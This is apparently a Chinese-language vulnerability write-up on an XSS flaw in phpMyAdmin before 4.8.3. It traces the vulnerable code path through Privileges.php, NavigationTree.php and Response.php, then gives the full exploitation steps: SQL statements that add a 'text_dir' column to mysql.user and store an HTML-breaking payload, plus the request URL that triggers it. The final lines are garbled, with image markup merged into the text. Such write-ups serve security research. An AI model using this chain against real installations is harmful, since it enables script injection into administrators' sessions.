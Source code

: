 Phpmyadmin \< 4.8.3 XSS
=======================

一、漏洞简介
------------

最近在审计phpmyadmin的时候发现了一个XSS漏洞，后来发现在版本大于4.8.3以后该漏洞被修复了。看了下之前公布的CVE，有个CVE和此漏洞很相似但没有漏洞细节，于是乎便有了这篇文章。

二、漏洞影响
------------

Phpmyadmin \< 4.8.3

三、复现过程
------------

在审计phpmyadmin时，我比较关注\$GLOBALS全局变量，该变量存储了本次请求的信息、phpmyadmin基本设置信息和phpmyadmin配置文件信息等。先看看/libraries/classes/Server/Privileges.php::3977的以下代码。

    foreach ($row as $key => $value) {
        $GLOBALS[$key] = $value;
    }

很明显，该处是\$GLOBALS的赋值操作，而\$row来自于对mysql.user表的查询结果，且\$user\_host\_condition可控，/libraries/classes/Server/Privileges.php::3966行

    public static function getDataForChangeOrCopyUser()
        {
            $queries = null;
            $password = null;

            if (isset($_REQUEST['change_copy'])) {
                $user_host_condition = ' WHERE `User` = '
                    . "'" . $GLOBALS['dbi']->escapeString($_REQUEST['old_username']) . "'"
                    . ' AND `Host` = '
                    . "'" . $GLOBALS['dbi']->escapeString($_REQUEST['old_hostname']) . "';";
                $row = $GLOBALS['dbi']->fetchSingleRow(
                    'SELECT * FROM `mysql`.`user` ' . $user_host_condition
                );

既然上述代码会将mysql.user中符合条件的行的列名和值写入\$GLOBALS中,我们便可通过添加mysql.user的列来往\$GLOBALS中写入任意键值。清楚思路后，我们看看哪里调用了Privileges.php的getDataForChangeOrCopyUser函数,发现在server\_privileges.php::178中对该函数有调用。

    list($queries, $password) = Privileges::getDataForChangeOrCopyUser();

这时我们来试试向\$GLOBALS中写一个\$GLOBALS\[\'xz\'\]=\'aliyun\'。进入mysql库，执行以下2条sql语句向user表添加xz字段，并插入一条数据。

    ALTER TABLE user ADD xz varchar(255);
    INSERT INTO `user` (`Host`, `User`, `Password`, `Select_priv`, `Insert_priv`, `Update_priv`, `Delete_priv`, `Create_priv`, `Drop_priv`, `Reload_priv`, `Shutdown_priv`, `Process_priv`, `File_priv`, `Grant_priv`, `References_priv`, `Index_priv`, `Alter_priv`, `Show_db_priv`, `Super_priv`, `Create_tmp_table_priv`, `Lock_tables_priv`, `Execute_priv`, `Repl_slave_priv`, `Repl_client_priv`, `Create_view_priv`, `Show_view_priv`, `Create_routine_priv`, `Alter_routine_priv`, `Create_user_priv`, `Event_priv`, `Trigger_priv`, `Create_tablespace_priv`, `ssl_type`, `max_questions`, `max_updates`, `max_connections`, `max_user_connections`, `plugin`, `authentication_string`, `xz`) VALUES ('127.0.0.1', 'test', '*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', '', '0', '0', '0', '0', '', '', 'aliyun');

在/libraries/classes/Server/Privileges.php::3980下断点

    $serverVersion = $GLOBALS['dbi']->getVersion();

然后构造http://127.0.0.1/phpMyAdmin-4.8.2/server\_privileges.php?change\_copy=aa&old\_username=test&old\_hostname=127.0.0.1&mode=5
参数请求，change\_copy随便给个参数即可，mode必须大于4否则新添加的数据会被删除。

![1.png](/Users/aresx/Documents/VulWiki/.resource/Phpmyadmin<4.8.3XSS/media/rId24.png)可以看到\$GLOBALS\[\'xz\'\]=\'aliyun\'已经成功赋值。

### 利用构造

有了可控的\$GLOBALS变量后，我们需要寻找触发点。要在一次请求便触发漏洞，公共页面是首选目标。通过全局搜索\$GLOBALS变量，发现在libraries/classes/Navigation/NavigationTree.php::1272的renderDbSelect函数中有使用未过滤的\$GLOBALS变量。

    $retval .= '<div>';
            $retval .= '<form action="index.php">';
            $retval .= Url::getHiddenFields($url_params);
            $retval .= '<select name="db" class="hide" id="navi_db_select">'
                . '<option value="" dir="' . $GLOBALS['text_dir'] . '">'

继续搜索调用renderDbSelect函数地方，发现libraries\\classes\\Navigation\\Navigation.php::62的getDisplay函数。

    public function getDisplay()
        {
            /* Init */
            $retval = '';
            $response = Response::getInstance();
            if (! $response->isAjax()) {
                $header = new NavigationHeader();
                $retval = $header->getDisplay();
            }
            $tree = new NavigationTree();
            if (! $response->isAjax()
                || ! empty($_REQUEST['full'])
                || ! empty($_REQUEST['reload'])
            ) {
                if ($GLOBALS['cfg']['ShowDatabasesNavigationAsTree']) {
                    // provide database tree in navigation
                    $navRender = $tree->renderState();
                } else {
                    // provide legacy pre-4.0 navigation
                    $navRender = $tree->renderDbSelect();

继续搜索实例化Naviagtion类并且调用了getDisplay函数的地方，发现libraries\\classes\\Header.php::440的getDisplay函数有调用。

    public function getDisplay()
        {
            $retval = '';
            ...(省略)
                    if ($this->_menuEnabled && $GLOBALS['server'] > 0) {
                        $nav = new Navigation();
                        $retval .= $nav->getDisplay();
                    }

搜索实例化Header-\>GetDisplay的方法，发现\\libraries\\classes\\Response.php::100的构造方法中实例化了Header类，而\$this-\_header又在\_getDisplay中被调用。\_getDisplay被\_htmlResponse调用，\_htmlResponse在response函数中被调用。

    private function __construct()
        {
            if (! defined('TESTSUITE')) {
                $buffer = OutputBuffering::getInstance();
                $buffer->start();
                register_shutdown_function(array($this, 'response'));
            }
            $this->_header = new Header();
            $this->_HTML   = '';
            $this->_JSON   = array();

\\libraries\\classes\\Response.php::266行

    private function _getDisplay()
        {
            // The header may contain nothing at all,
            // if its content was already rendered
            // and, in this case, the header will be
            // in the content part of the request
            $retval  = $this->_header->getDisplay();
            $retval .= $this->_HTML;
            $retval .= $this->_footer->getDisplay();
            return $retval;
        }

\\libraries\\classes\\Response.php::279行

    private function _htmlResponse()
        {
            echo $this->_getDisplay();
        }

\\libraries\\classes\\Response.php::438行

    public function response()
        {
            chdir($this->getCWD());
            $buffer = OutputBuffering::getInstance();
            if (empty($this->_HTML)) {
                $this->_HTML = $buffer->getContents();
            }
            if ($this->isAjax()) {
                $this->_ajaxResponse();
            } else {
                $this->_htmlResponse();
            }
            $buffer->flush();
            exit;
        }

这里注意\_\_construct中的register\_shutdown\_function函数，看php
manual，意思是说当脚本运行结束或遇到exit后会执行该response函数，![2.png](/Users/aresx/Documents/VulWiki/.resource/Phpmyadmin<4.8.3XSS/media/rId26.png)**意思就是说只要哪里实例化了Response类，在程序运行结束后就会执行response函数**。真好，回到server\_privileges.php::34行，发现有实例化Response。

    $response = Response::getInstance();
    $header   = $response->getHeader();
    $scripts  = $header->getScripts();

拥有以上调用链后，只需要控制\$GLOBAS的键为text\_dir,值为XSS
payload即可，进入mysql库，执行以下sql语句修改列名xz为text\_dir，并修改数据为XSS
Payload。

    ALTER TABLE `user` CHANGE `xz` `text_dir` VARCHAR(255) CHARACTER SET utf8 COLLATE utf8_bin NULL DEFAULT NULL;
    UPDATE `user` SET `text_dir` = '\"><img src><option dir=\"' WHERE `user`.`Host` = '127.0.0.1' AND `user`.`User` = 'test';

构造https://wiki.0-sec.org/img
src=\"https://wiki.0-sec.org/img/69c5e770161c4eaeb6d839977209edf2.png\"
alt=\"3.png\" class=\"large\" onclick=\"window.open(this.src)\" /\>成功触发XSS

参考链接
--------

> https://xz.aliyun.com/t/7797
